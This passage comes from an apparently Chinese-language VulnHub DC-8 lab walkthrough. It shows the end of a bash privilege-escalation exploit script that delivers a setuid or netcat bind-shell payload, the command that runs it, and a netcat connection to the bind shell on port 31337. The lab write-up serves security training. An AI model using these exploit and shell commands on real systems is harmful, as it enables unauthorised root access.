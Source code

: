 ```bash

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF

bash pri.sh -m netcat
```

耐心等待

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/14.png)

这个时候再用 kali 新建一个 bind shell 连接
```
nc -nv 192.168.141.141 31337
```
